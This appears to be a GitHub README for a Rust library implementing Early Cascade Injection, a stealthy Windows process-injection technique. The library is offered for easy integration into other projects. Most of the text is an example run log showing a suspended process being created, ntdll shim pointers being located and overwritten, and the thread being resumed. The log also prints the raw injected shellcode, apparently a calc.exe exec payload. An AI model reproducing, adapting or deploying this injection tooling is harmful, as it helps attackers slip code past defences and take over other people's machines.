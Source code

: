 # rs_early_cascade

Rust implementation of [Early Cascade Injection](https://www.outflank.nl/blog/2024/10/15/introducing-early-cascade-injection-from-windows-process-creation-to-stealthy-injection/)

Includes:
- API resolution via PEB walk.
- Dynamic `g_pfnSE_DllLoaded` and `g_ShimsEnabled` offset resolution.
- Formatted imports and library structure fo easy integration into other projects and use with `no_std`.

## Example output

```
[INJECT:CASCADE] Creating process...
[INJECT:CASCADE] Suspended process created
[INJECT:CASCADE:SECTIONS]
         Number: 10
[INJECT:CASCADE:SECTIONS]
        section: .text
          start: 0x1000
           size: 0x11901e
            end: 0x11a01e
[INJECT:CASCADE:SECTIONS]
        section: .data
          start: 0x166000
           size: 0xb518
            end: 0x171518
[INJECT:CASCADE:SECTIONS]
        section: .mrdata
          start: 0x181000
           size: 0x3520
            end: 0x184520
[INJECT:CASCADE:OFFSETS] Done searching - these offsets should remain constant per ntdll hash
[INJECT:CASCADE:OFFSETS] g_pfnSE_DllLoaded: 0x181268
[INJECT:CASCADE:OFFSETS] g_shims_enabled: 0x16d194
[INJECT:CASCADE] Memory allocated in the remote process @ 0x21f78800000
[INJECT:CASCADE] Final payload bytes: [48, 31, c0, 48, ba, 94, d1, af, fc, fe, 7f, 0, 0, 88, 2, 48, ba, 33, 0, 80, 78, 1f, 2, 0, 0, 48, b8, e0, d6, a2, fc, fe, 7f, 0, 0, 4d, 31, c9, 4d, 31, c0, 49, 8d, 48, fe, ff, d0, 48, 31, c0, c3, fc, 48, 83, e4, f0, e8, c0, 0, 0, 0, 41, 51, 41, 50, 52, 51, 56, 48, 31, d2, 65, 48, 8b, 52, 60, 48, 8b, 52, 18, 48, 8b, 52, 20, 48, 8b, 72, 50, 48, f, b7, 4a, 4a, 4d, 31, c9, 48, 31, c0, ac, 3c, 61, 7c, 2, 2c, 20, 41, c1, c9, d, 41, 1, c1, e2, ed, 52, 41, 51, 48, 8b, 52, 20, 8b, 42, 3c, 48, 1, d0, 8b, 80, 88, 0, 0, 0, 48, 85, c0, 74, 67, 48, 1, d0, 50, 8b, 48, 18, 44, 8b, 40, 20, 49, 1, d0, e3, 56, 48, ff, c9, 41, 8b, 34, 88, 48, 1, d6, 4d, 31, c9, 48, 31, c0, ac, 41, c1, c9, d, 41, 1, c1, 38, e0, 75, f1, 4c, 3, 4c, 24, 8, 45, 39, d1, 75, d8, 58, 44, 8b, 40, 24, 49, 1, d0, 66, 41, 8b, c, 48, 44, 8b, 40, 1c, 49, 1, d0, 41, 8b, 4, 88, 48, 1, d0, 41, 58, 41, 58, 5e, 59, 5a, 41, 58, 41, 59, 41, 5a, 48, 83, ec, 20, 41, 52, ff, e0, 58, 41, 59, 5a, 48, 8b, 12, e9, 57, ff, ff, ff, 5d, 48, ba, 1, 0, 0, 0, 0, 0, 0, 0, 48, 8d, 8d, 1, 1, 0, 0, 41, ba, 31, 8b, 6f, 87, ff, d5, bb, f0, b5, a2, 56, 41, ba, a6, 95, bd, 9d, ff, d5, 48, 83, c4, 28, 3c, 6, 7c, a, 80, fb, e0, 75, 5, bb, 47, 13, 72, 6f, 6a, 0, 59, 41, 89, da, ff, d5, 63, 61, 6c, 63, 2e, 65, 78, 65, 0]
[INJECT:CASCADE:POINTER] function pointer: 0x21f78800000
[INJECT:CASCADE:POINTER] Encoded function pointer: 87eb0339aa800000
[INJECT:CASCADE:OVERWRITE] Write result for g_pfnSE_DllLoaded: 0x0
[INJECT:CASCADE:OVERWRITE] Write result for g_ShimsEnabled: 0x0
[INJECT:CASCADE] Thread resumed: 0x0
```

![Execution](image.png)

# References
- https://www.outflank.nl/blog/2024/10/15/introducing-early-cascade-injection-from-windows-process-creation-to-stealthy-injection/
- https://gist.github.com/mgeeky/ac3ef69a3c5a32cc32ce596115371173
